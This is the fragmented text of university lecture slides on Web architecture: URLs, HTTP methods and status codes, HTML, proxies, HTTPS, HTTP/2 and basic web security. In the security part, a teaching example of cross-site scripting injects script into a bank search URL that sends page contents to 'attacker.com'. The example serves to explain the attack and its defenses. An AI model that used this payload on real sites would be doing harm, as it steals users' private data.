



The Web seems an “evident” extension
What is so special about
This flyer predates the Web’s boom.What is missing?

The Web actually consists of
The Web actually consists of
A URL uniquely identifies a resource.
HTTP allows us to retrieve a representationHyperText Transfer Protocol An HTML document can represent a resource,HyperText Markup Language
A Web URL uniquely identifies and locates
a resource anywhere in the universe.
A string is a unique identifier ifat most one entity corresponds to it.
A national number uniquely identifies a person,
A string is a unique locator ifat most one location corresponds to it.
A street address uniquely identifies a location,
A (well-chosen) URL combines
http://en.wikipedia.org/wiki/Marissa_Mayer
This URL identifies the current Wikipedia article
about Marissa Mayer.
It does not (also) identify Marissa herself.
Otherwise, it wouldn’t be unique anymore.
At the same time, this URL allows us to locate
the Wikipedia article about Marissa Mayer.
Again, not Marissa herself—nor anything else.
Deceptively simple, the URL is probably
the most revolutionary part of the Web.
The flyer we saw earlier shows
publisher-specific download instructions
machine-dependent execution
Unique identification partially existed,
e-mail address and server names are global
document names are server-specific
The generic URL syntax
<scheme>:<scheme-specific-part>
The uniform structure of an HTTP URL
http://<host>/<path>?<search>#<fragment>
hostname
identifies the machine
path
identifies the resource within the machine
search
optionally refines the resource
fragment
optionally identifies a part of the resource
The uniform structure of an HTTP URL
http://en.wikipedia.org/wiki/Marissa_Mayer#Career
hostname
the machine is en.wikipedia.org
path
the resource is /wiki/Marissa_Mayer
search
not present fragment
the part of the resource is Career
An HTTP URL provides the instructions
http://<host>/<path>?<search>#<fragment>
The client looks up the host’s IP address.
The client uses DNS for this.
The client requests /<path>?<search>.
The server generates a response in a server-specific way.
The client finds #<fragment>.
Fragments are defined by the representation format.
An HTTP URL provides the instructions
http://en.wikipedia.org/wiki/Marissa_Mayer#Career
The client looks up the IP address of en.wikipedia.org .
This address is 91.198.174.192 .
The client requests /wiki/Marissa_Mayer .
The server generates the corresponding Wikipedia article.
The client finds #Career .
This corresponds to a header in the HTML document.
The URL became part of a family
URL – Uniform Resource Locator (RFC1738 )
unique identification and location of resources
mailto:ruben.verborgh@ugent.be
URN – Uniform Resource Name (RFC2141 )
location-independent resource identifier
urn:isbn:0-83891251-6
URI – Uniform Resource Identifier (RFC3986 )
The broadest family is IRI,
Not all characters are allowed in a URI.
IRI – Internationalized Resource Identifier (RFC3987 )
Non-ASCII chars don’t need to be encoded.
Chars with other meaning still need encoding.
http://🛀🌰🐊🎩🍓🐒🐝👊.🍕💩.ws
HTTP is a protocol to transfer representations
from a server to a client.
HTTP standardizes how clients send a request representation
of a resource through its URL.
HTTP standardizes how servers reply with a response
that can contain a representation.
The most widely used version is HTTP 1.1
(RFC2616 ).
After resolving the server’s IP address,
After resolving the server’s IP address,
To obtain http://en.wikipedia.org/wiki/Marissa_Mayer ,
the client connects to 91.198.174.192 on TCP port 80,
and sends this request:
GET /wiki/Marissa_Mayer HTTP/1.1
Host: en.wikipedia.org
User-Agent: MyBrowser/1.0
Accept: text/html
HTTP has a limited number of methods.
GETtransfer a representation
HEADtransfer only status and headers
POSTperform a resource-specific operation
PUTreplace all representations
DELETEremove all representations
An HTTP method is safe
The client does not request
The server can still change something,
Safe methods include GET and HEAD.
Automated clients cannot cause harm with these.
Servers not respecting this contract act dangerously.
An HTTP method is idempotent
The client can execute an idempotent request
If a request (maybe) failed, just try it again.
Idempotent methods include all safe methods,PUT and DELETE.
Deleting something multiple times
Repeating other methods might be undesired.
Clients send the hostname,so one server can host multiple websites.
Although the client resolves it to an IP address,
There is no one-to-one mapping
One website can be hosted by multiple servers .
Multiple DNS entries exist for a hostname.
One server can host multiple websites .
The Host header tells the server which one to pick.
When a server receives a request,
The response starts with a status line .
The response can contain header fields .
The response can optionally contain a body .
depending on status code
contains the actual document contents
When a server receives a request,
In response to our previous request :
HTTP/1.1 200 OK
Date: Wed, 18 Feb 2016 09:30:46 GMT
Content-Type: text/html; charset=UTF-8
Last-Modified: Sun, 24 Jan 2016 18:26:27 GMT
<!DOCTYPE html>
<html lang="en" dir="ltr" class="client-nojs">
…
HTTP has 5 categories of status codes
100–199 info – the client may continue200–299 success – request understood & accepted300–399 redirection – further action is needed400–499 client error – the request cannot be fulfilled500–599 server error – the server failed to fulfill
A couple of these status codes
200 OK (“default”) 301 Moved Permanently404 Not Found500 Internal Server Error
HTTP has 5 categories of status codes
HTML is a markup language thatstructure of documents.
HTML divides a document into elements ,tags .
Tags begin with “<” and end with “>”.
(Regular) closing tags begin with “</”.
Self-closing tags end with “/>”.
Opening tags can have key/value attributes.
The key name is followed by “=” and its value.
The value is usually surrounded by (single/double) quotes.
The HTML specification restricts
A few dozen tags
exist for different element types.
They have rules for what attributes they can have,
and what child elements they can/should have.
There are three main parts:
<html> for the entire document<head> for document metadata<body> for document contents
HTML documents can embed or use
Embed images, audio, and video.
Use style sheets , fonts ,
and scripts .
<link rel="stylesheet"><script>
Embed other pages (instead of linking to them).
HTML is intended for markup ,makeup .
HTML elements focus on structure…
<h2>The <em>new</em> section</h2>
…not on aesthetics.
<font size="5">
Makeup -only elements were removed from HTML5.
The Web supports an immense variety
All clients need to support
networking technologies
the HTTP protocol
many libraries exist
often combined with networking support
one or more representation formats
not necessarily (only) HTML
Browsers offer an interactive environment
They render HTML elements as interactive controls.
They typically support styles, media, and scripts.
Standards ensure consistency (mostly) .
The main differences are features and preferences.
operating system
performance
extensions
Web applications perform HTTP requests
A script on a webpage can make HTTP requests.
The server typically returns JSON or XML responses,
Alternatively, the server could return HTML ,
Scripts can be triggered automatically
clicking a button or link
pressing a key (autocompletion)
Desktop and mobile applications
They use their own infrastructure,
In particular, they usually don’t set cookies.
They typically request JSON (or XML ),HTML is not uncommon.
HTML can be used to render partial views.
Is there a real need then for a native app?
Crawlers process and/or index webpages,
Crawlers extract, process, and index text contents.
They also analyze (some) structured annotations.
Using links, they discover other pages.
The HTTP protocol does not attach
Even though you might attach meaning to an URL likehttp://example.org/products/guitars.html?brand=gibson ,
In particular, slashes do not necessarily indicate folders;
The server might just have used this URL instead:http://example.org/products-guitars?html%2Fbrand.gibson
Web servers exist in many kinds and
A static file server maps HTTP URLs
A config file usually assigns a root folder per domain.
http://example.org/images/products/guitar.jpg
could map to /var/www/example.org/images/products/guitar.jpg
Folders map to possible index files.
http://example.org/images/products/
could map to /var/www/example.org/images/products/index.html
Custom permissions and rules can be set.
An application server uses server-side code
The request is parsed by an application framework,
Implementors can react to specific URLs or patterns,
typically generating responses using templates.
Many languages and frameworks exist.
Several intermediaries may exist
In contrast to many other protocols,
This is not as easy with other protocols.
removeObject.getMessage(234);
removeObject.getMessage(234);
removeObject.deleteMessage(234);
If a proxy server is inserted before the remote server,getMessage?
If so, how long?
HTTP can be transparent because of
Caching
is possible with headersCache-ControlETag
Cache-Control: max-age=3600ETag: UniqueHash456
The intermediary fetches the requested item
Repeated requests for the item
The standardized method semantics
Repeated GET requests can be cached,GET is safe.
The client did not ask for changes,
Since nothing changes, we can bypass the server.
If POST or PUT are used on a resource,GET must not be read from cache.
POST or PUT are not safe and may change things.(Repeated identical PUT requests can be ignored though.)
Depending on their position the network,forward or reverse .
(forward) proxy
in the network of the client
typically used for caching
possibly for security/anonymity purposes
reverse proxy
in the network of the server
typically used for caching
also for routing, hiding/abstracting remote architecture
A device can listen on only one TCP port 80.
What if we need to serve static and dynamic files?
Only one application can listen to a given TCP port.
Configure servers to run on internal ports
Run a reverse proxy
(NGINX ,
Apache ,
…)
on port 80,
Route requests based on Host header and/or path.
The proxy interfaces with app servers
Caching can happen virtually anywhere—
The notion of “client” and “server”
HTTP nodes send plaintext over TCP,
The privacy of your requests is not guaranteed.
The privacy of server responses is not guaranteed.
The integrity of server responses is not guaranteed.
The Web needs to be a safe
HTTP poses a major threat
for sensitive applications.
banking
payment
medical records
webmail
…
It’s hard to define what is sensitive .
Can others see what Wikipedia articles you read?
HTTPS is a secure extension
HTTPS can be applied in
Consider the common use case in whichapplication server lives behind a reverse proxy .
Only the proxy could use HTTPS.
Typically, server and proxy operate in a trusted network.
Client–proxy communications are secured.
The server and the proxy could use HTTPS.
These are two different encrypted communications.
No proxy can sit “in between” an encrypted communication.
Setting up HTTPS involves requesting,
Request SSL certificate from a certificate authority .
This certificate is valid for one or more hostnames.
Let's Encrypt provides free certificates for all.
Configure your Web server with the certificate.
private key stored safely
public key shared with clients
When the certificate expires, request a new one.
HTTPS URLs are different,
HTTP URLs start with http:https:
After HTTPS has been configured,
Never break existing URLs!
The connection between two URLs differing only
in http/https is not universally defined.
They could be different things.
Most browsers indicate HTTPS in the address bar.
Some browsers such as Chromecampaign for an all-HTTPS Web.


The Web has been pushing HTTP’s limits,
The Web has different demands nowadays
HTTP/2 is an update of the HTTP protocol
This section is based on http2 explained Daniel Stenberg ,
creator of curl .
Webpages consist of more and more items
The HTTP Archive
saw average total page transfer size increase
from 0.7Mb in 2010 to 2.35Mb in 2017.
The average page consist of more than 90 objects.
Several limitations of HTTP have
Many websites use(d) workarounds
inlining
Embed scripts, images, and/or styles
inside HTML documents instead of linking them
to reduce the number of items.
concatenation
Combine several scripts, images, or styles
into a single file.
sharding
Distribute resources across different domains
to bypass connection restrictions.
HTTP/2 set out a couple ofgoals for improvement.
Reduce sensitivity to latency.
Eliminate the need for multiple connections.
Fix HTTP pipelining and line blocking.
Maintain interfaces, content, and URLs.
Be backward compatible for HTTP 1.1 clients.
HTTP/2 is a binary protocol that sends
Switching to binary makes framing easier.
10 types of frames
HEADERS frame for HTTP headersDATA for request and response payloads
Multiplexing ensures objects don’t block each other.
Frames from many streams flow over the same connection.
Additional compression reduces overhead.
HTTP’s stateless nature implies repetition.
HTTP/2 always goes over TLS in practice,
With regular TCP on port 80, clients would
overhead necessary for backward compatibility
With TLS, Application-Layer Protocol Negotiation
is embedded within the TLS handshake.
no protocol selection latency
Firefox and Chrome will only support TLS.
https: everywhere in the future
Protocol-level security is insufficient
Protocol-level security only guarantees privacy and integrity
from one endpoint to another.
The Web evolved from a document system
to a distributed application platform.
Applications themselves also need
With code injection, clients send input
attack
executable code passed in an URL or POST body parameter
cause
improper input validation by the server
defense
never trust raw client inputvalidate input ranges
escape values before passing to scripts
Client-side validation only offers usability;always need to (re-)validate.
Client-side form
role
admin
user
developer
Ways to bypass
change the HTML at runtime
construct the HTTP request in another way
Client-side-only validation in the real world
With Cross-Site Scripting (XSS), a client-side script
steals information from a webpage.
attack
trick another site into executing code in its own space,
exposing or changing user data
causes
improper input validation
trusting third-party content
social engineering
defense
validate input
add token field on forms
Injecting JavaScript in pages
Original page echoes assets in contents
https://mybank.com/onlinebanking/?search=assetsAttack code
(xhr = new XMLHttpRequest()).open('GET',
'http://attacker.com/?data=' + document.body.innerHTML);
xhr.send(null);Modified URL echoes the attack code in contents
https://mybank.com/onlinebanking/?search=%3Cscript%3E(xhr%20%3D%20new
With cross-origin access, a page requests
third-party resources through JavaScript.
attack
request resources from another site with JavaScript and read their contents
causes
the existence of XMLHttpRequest
being logged in on another website
defense
browsers block cross-origin requests by default
Cross-origin requests are a problem
Nothing happens when any other script or apphttps://mybank.com/onlinebanking/.
You are not logged in—there are no cookies.
When the browser requests that page,
You might be logged in—browsers maintain cookies.
As a result, browsers block cross-origin requests.
an origin more or less corresponds to a domain
Activate CORS to enable Web APIs access
from within other browser-based Web applications.
The browser adds an Origin header to requests.
If the server allows requests from that origin,Access-Control-Allow-Origin.
Access-Control-Allow-Origin: https://my.site
Users spend most of their time on other sites.
This means that users prefer your site to work the same way as all the other sites they already know.
Jakob Nielsen


 Except where otherwise noted, the content of these slides is licensed under a Creative Commons Attribution 4.0 International License.
Except where otherwise noted, the content of these slides is licensed under a Creative Commons Attribution 4.0 International License.
![[“Secure” indication in the address bar]](images/https-secure.png)

{kind=link}